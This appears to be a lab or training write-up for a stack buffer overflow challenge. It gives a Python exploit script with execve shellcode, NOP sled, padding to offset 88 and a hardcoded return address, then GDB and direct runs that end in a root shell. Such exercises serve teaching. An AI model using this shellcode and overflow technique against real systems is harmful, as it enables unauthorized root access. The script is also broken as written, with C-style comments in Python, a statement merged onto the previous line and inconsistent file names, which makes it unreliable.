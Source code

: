 
Create Exploit with Offset = 88

Shellcode spawns a shell
```
#!/usr/bin/python

/* exploit for challenge3.py */


import sys

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

buf_size = 64
offset = 88

ret_addr = "\xb0\xe8\xff\xff\xff\x7f"

/* fill up to 64 bytes */
exploit = "\x90" * (buf_size - len(shellcode))
exploit += shellcode

/* garbage between buffer and RET */
exploit += "A" * (offset - len(exploit))

/* add ret */
exploit += ret_addr sys.stdout.write(exploit)
```

Exploit in GDB

Let's exploit the binary in GDB (within the debugger). Please use the "file ./challenge3_64" before running the binary!
```
(gdb) file ./challenge3_64
(gdb) run `python bof3.py` test
test Starting program: /home/hacker/bfh/day2/challenge3 `python bof3-2.py` test
You ARE admin!
Be the force with you.
isAdmin: 0x41414141
process 13510 is executing new program: /bin/dash
#  
```

Exploit without GDB (directly)

Let's now exploit the binary directly.
```
# ./challenge3 `python bof3.py` test
You ARE admin!
Be the force with you.
isAdmin: 0x41414141
# id
uid=0(root) gid=0(root) groups=0(root)
#  
```
